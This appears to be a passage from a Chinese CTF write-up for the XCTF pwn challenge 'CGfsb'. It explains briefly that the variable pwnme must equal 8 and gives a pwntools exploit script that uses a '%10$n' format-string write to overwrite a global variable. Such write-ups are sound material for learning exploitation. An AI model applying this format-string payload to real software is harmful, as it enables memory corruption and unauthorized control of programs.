 ![](xctf_nostring_attacted.md4.png)

结果在output 窗口。

## pwn

### CGfsb
ida载入，发现要pwnme == 8 才行。字符串格式化漏洞


exp
```python
from pwn import *
context.log_level = 'debug'
conn = process('./e41a0f684d0e497f87bb309f91737e4d')
# conn = remote("220.249.52.133",56225)
pwnme = 0x0804A068
payload1 = 'aaaa'
payload2 = flat(p32(pwnme), 'a'*4 ,'%10$n')  #pwnme地址占4个字节，所以后面需要打印4个a
conn.recvuntil('please tell me your name:')
conn.sendline(payload1)
# gdb.attach(conn)
conn.recvuntil('leave your message please:') 
conn.sendline(payload2)
conn.interactive()
print(conn.recvall())
```
